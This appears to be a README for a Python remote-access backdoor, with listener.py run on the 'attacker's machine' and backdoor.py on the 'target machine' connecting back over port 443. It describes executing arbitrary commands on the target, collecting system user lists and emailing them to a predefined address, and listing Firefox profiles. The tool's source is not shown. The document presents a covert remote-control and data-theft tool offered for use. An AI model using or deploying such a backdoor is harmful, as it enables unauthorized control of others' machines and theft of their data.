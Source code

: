 ## Usage

These scripts form a simple client-server remote control setup, where `listener.py` acts as the server (listener) and `backdoor.py` acts as the client (backdoor). The listener receives commands and the backdoor executes them on the remote machine.

### Setup

1. **Ensure both scripts are on separate machines (or different terminals on the same machine for testing).**
   - The listener should be run on the attacker's machine.
   - The backdoor should be run on the target machine.

2. **Configure IP and Port**
   - Update the IP address and port in both scripts to match the network setup. By default, they are set to `192.168.1.50` and port `443`.

### Steps to Run

#### 1. Run the Listener (Server)

The listener waits for an incoming connection and then interacts with the connected backdoor.

```bash
./listener.py
````

#### 2. Run the Backdoor (client)
On the target machine, run the backdoor to establish a connection to the listener.

````bash
./backdoor.py
````
Once connected, the backdoor will:

- Receive commands from the listener.
- Execute them on the target system.
- Send back the output of the executed commands.

### Command Usage

In the `listener.py` session, you can run the following commands:

- **get users**: This command retrieves a list of system users from the target machine and sends it via email to a predefined address.

    ```bash
    >> get users
    ```

- **get firefox**: This command tries to list Firefox profiles stored on the target machine.

    ```bash
    >> get firefox
    ```

- **help**: Displays the available commands.

    ```bash
    >> help
    ```

- **Other Commands**: Any other commands entered will be executed remotely on the target machine using the backdoor.

    Example:

    ```bash
    >> dir
    ```
